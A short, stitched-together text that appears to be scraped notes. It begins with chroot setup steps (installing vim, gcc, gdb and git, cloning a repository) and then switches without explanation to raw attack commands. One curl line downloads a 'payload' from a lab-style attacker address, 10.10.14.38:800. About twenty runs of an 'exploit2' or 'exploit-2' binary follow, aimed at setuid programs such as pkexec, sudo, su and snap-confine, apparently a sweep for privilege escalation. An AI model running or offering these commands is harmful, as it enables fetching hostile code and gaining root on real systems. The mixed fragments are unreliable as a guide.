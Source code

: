 ```bash
apt update
apt install vim gcc gdb make git
```

---

**Step 8: Using `git clone` Inside the Chroot**

To clone a repository inside the chroot, you need **git** installed (done in Step 7). Then, you can run:

```bash
git clone https://github.com/example/repository.git
```

Replace `https://github.com/example/repository.git` with the actual repo URL.

curl http://10.10.14.38:800/payload -o payload


./exploit2 /usr/bin/at

./exploit2 /usr/lib/openssh/ssh-keysign
./exploit2 /usr/lib/snapd/snap-confine
./exploit-2 /usr/lib/policykit-1/polkit-agent-helper-1
./exploit-2 /usr/lib/eject/dmcrypt-get-device
./exploit-2 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
./exploit-2 /usr/sbin/mount.nfs
./exploit-2 /usr/bin/pkexec
./exploit-2 /usr/bin/passwd
./exploit-2 /usr/bin/chsh
./exploit-2 /usr/bin/fusermount
./exploit-2 /usr/bin/sudo
./exploit-2 /usr/bin/newgrp
./exploit-2 /usr/bin/mount
./exploit-2 /usr/bin/gpasswd
./exploit-2 /usr/bin/umount
./exploit-2 /usr/bin/su
./exploit2 /usr/bin/at
./exploit-2 /usr/bin/chfn
